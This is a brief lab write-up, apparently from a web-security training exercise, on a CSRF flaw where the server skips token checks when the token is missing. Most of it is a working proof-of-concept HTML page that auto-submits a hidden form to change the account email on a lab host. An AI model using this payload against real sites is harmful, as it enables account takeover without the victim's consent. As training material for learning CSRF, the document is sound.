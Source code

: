 # Lab: CSRF where token validation depends on token being present

This is the same as the first lab, but the application doesn't validate CSRF tokens as intended when the token is omitted from a request:

```<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ace41f101f4736cfc08301db0058008c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;com" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>```